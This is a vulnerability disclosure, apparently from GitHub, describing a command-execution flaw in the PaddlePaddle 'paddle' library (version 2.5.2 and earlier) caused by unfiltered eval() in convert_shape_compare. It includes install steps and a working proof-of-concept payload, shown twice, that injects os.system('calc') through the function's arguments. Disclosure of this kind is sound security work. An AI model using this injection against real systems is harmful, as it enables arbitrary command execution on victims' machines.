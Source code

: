 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability version: <= 2.5.2  
Vulnerability type: Command Execution  
Vulnerability vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause User's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which could run Python3 and Windows10

1、Download Paddle latest version(or <= v2.5.2)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

An unfiltered dangerous function (line 681) appeared in API function convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to carefully construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()  
2、filter more  

discovered by leeya_bug
2023/12/15
